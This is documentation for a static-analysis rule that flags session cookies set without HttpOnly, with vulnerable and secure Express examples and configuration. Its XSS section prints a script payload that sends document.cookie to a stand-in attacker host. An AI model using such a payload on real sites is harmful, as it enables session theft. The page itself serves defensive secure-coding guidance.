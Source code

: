 # S032 - Set HttpOnly attribute for Session Cookies

## Rule Description

**S032** ensures that session cookies have the `HttpOnly` attribute set to prevent JavaScript access. This protects against XSS attacks by preventing client-side script access to sensitive cookies, reducing the risk of cookie theft.

## Security Impact

- **High**: Session cookies without HttpOnly can be accessed via JavaScript in XSS attacks
- **Attack Vector**: Cross-Site Scripting (XSS), malicious scripts
- **Compliance**: OWASP Top 10, security best practices

## Detection Patterns

### Vulnerable Code Examples

```javascript
// ❌ Express.js - Missing HttpOnly attribute
res.cookie("sessionid", sessionValue, {
  secure: true,
  // Missing: httpOnly: true
});

// ❌ Set-Cookie header - No HttpOnly attribute
res.setHeader("Set-Cookie", "sessionid=abc123; Secure");

// ❌ Document.cookie - Accessible by JavaScript
document.cookie = "auth=token123; path=/; Secure";

// ❌ Session middleware - Missing HttpOnly
app.use(
  session({
    secret: "secret-key",
    name: "sessionid",
    cookie: {
      secure: true,
      // Missing: httpOnly: true
    },
  })
);

// ❌ Explicitly disabled HttpOnly
res.cookie("jwt", tokenValue, {
  secure: true,
  httpOnly: false, // Explicitly vulnerable
});
```

### Secure Code Examples

```javascript
// ✅ Express.js - With HttpOnly attribute
res.cookie("sessionid", sessionValue, {
  httpOnly: true,
  secure: true,
  sameSite: "strict",
});

// ✅ Set-Cookie header - With HttpOnly attribute
res.setHeader("Set-Cookie", "sessionid=abc123; HttpOnly; Secure");

// ✅ Session middleware - Secure configuration
app.use(
  session({
    secret: "secret-key",
    name: "sessionid",
    cookie: {
      httpOnly: true,
      secure: true,
      sameSite: "strict",
    },
  })
);

// ✅ Complete security configuration
res.cookie("auth", authToken, {
  httpOnly: true,
  secure: process.env.NODE_ENV === "production",
  sameSite: "strict",
  maxAge: 3600000, // 1 hour
});
```

## Session Cookie Indicators

The rule detects cookies that are likely session-related based on:

- **Cookie Names**: `session`, `sessionid`, `sessid`, `jsessionid`, `phpsessid`
- **Framework Patterns**: `connect.sid`, `asp.net_sessionid`
- **Authentication**: `auth`, `token`, `jwt`, `csrf`, `refresh`

## Supported Frameworks

- **Express.js**: `res.cookie()`, `res.setHeader()`
- **Koa**: Cookie setting methods
- **Fastify**: Cookie plugins
- **Next.js**: API routes cookie handling
- **Native**: `document.cookie`, Set-Cookie headers

## Configuration

The rule can be configured in `config.json`:

```json
{
  "validation": {
    "sessionIndicators": ["session", "sessionid", "auth", "token", "refresh"],
    "cookieMethods": ["setCookie", "cookie", "setHeader"],
    "httpOnlyPatterns": ["httpOnly:\\s*true", "HttpOnly"]
  }
}
```

## HttpOnly vs XSS Protection

### Without HttpOnly (Vulnerable)

```javascript
// JavaScript can access this cookie
document.cookie; // "sessionid=abc123; auth=token456"

// XSS payload can steal cookies
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>;
```

### With HttpOnly (Protected)

```javascript
// JavaScript cannot access HttpOnly cookies
document.cookie; // Only shows non-HttpOnly cookies

// XSS attacks cannot steal session cookies
<script>
  // This will not include HttpOnly cookies
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>;
```

## Best Practices

1. **Always use HttpOnly for session cookies**
2. **Combine with Secure flag** for HTTPS-only transmission
3. **Use SameSite attribute** for CSRF protection
4. **Complete security configuration**:
   ```javascript
   res.cookie("session", value, {
     httpOnly: true, // Prevent JavaScript access
     secure: true, // HTTPS only
     sameSite: "strict", // CSRF protection
     maxAge: 3600000, // Expiration
   });
   ```

## Exception Cases

Some legitimate use cases may require JavaScript access:

```javascript
// ✅ Non-session cookies for UI preferences
res.cookie("theme", "dark", {
  // httpOnly: false is acceptable here
  secure: true,
  sameSite: "lax",
});

// ✅ CSRF tokens that need JavaScript access
res.cookie("csrf-token", csrfToken, {
  // httpOnly: false for AJAX requests
  secure: true,
  sameSite: "strict",
});
```

## Related Rules

- **S031**: Secure flag for cookies
- **S033**: SameSite attribute for CSRF protection
- **S034**: Cookie expiration and domain settings

## References

- [OWASP Session Management](https://owasp.org/www-project-cheat-sheets/cheatsheets/Session_Management_Cheat_Sheet.html)
- [MDN HttpOnly Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies)
- [OWASP XSS Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
